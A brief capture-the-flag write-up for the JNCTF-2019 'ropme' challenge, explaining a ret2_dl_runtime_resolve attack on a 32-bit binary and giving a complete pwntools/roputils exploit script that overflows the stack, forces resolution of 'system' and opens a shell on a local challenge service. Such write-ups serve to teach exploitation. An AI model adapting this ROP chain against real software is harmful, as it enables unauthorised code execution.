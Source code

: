 # JNCTF-2019 : ropme

## **【原理】**
Ret2_dl_runtime_resolve

## **【目的】**
Learn exploit of _dl_runtime_resolve

## **【环境】**
Ubuntu 16.04

## **【工具】**
Pwntools,roputils

## **【步骤】**
In this challenge ,it's hard to leak address .I decided to use ret2_dl_runtime_resolve to exploit it.

First step is to determine the overflow length .Open IDA and calculate it.

![image-20190927163053235](Write-Up/image-20190927163053235.png)

Obviously ,the length is `0x1c+0x04` for x32 machine.

Then we use roputils to set up the exploit chain.

Here is the exploit. More information is available on https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/advanced-rop-zh/ . Enjoy.

```python
import roputils
from pwn import *

#p=process('./ropme')
p=remote("localhost",30000)
rop=roputils.ROP('./ropme')

offset=32

bss_base=rop.section('.bss')
payload=rop.fill(offset)

payload+=rop.call('read',0,bss_base,100)
payload+=rop.dl_resolve_call(bss_base+20,bss_base)

p.send(payload)

payload=rop.string('/bin/sh')
payload+=rop.fill(20,payload)
payload+=rop.dl_resolve_data(bss_base+20,'system')
payload+=rop.fill(100,payload)
p.send(payload)
p.interactive()
```



## **【总结】**
Known the process of dynamic link is necessary .
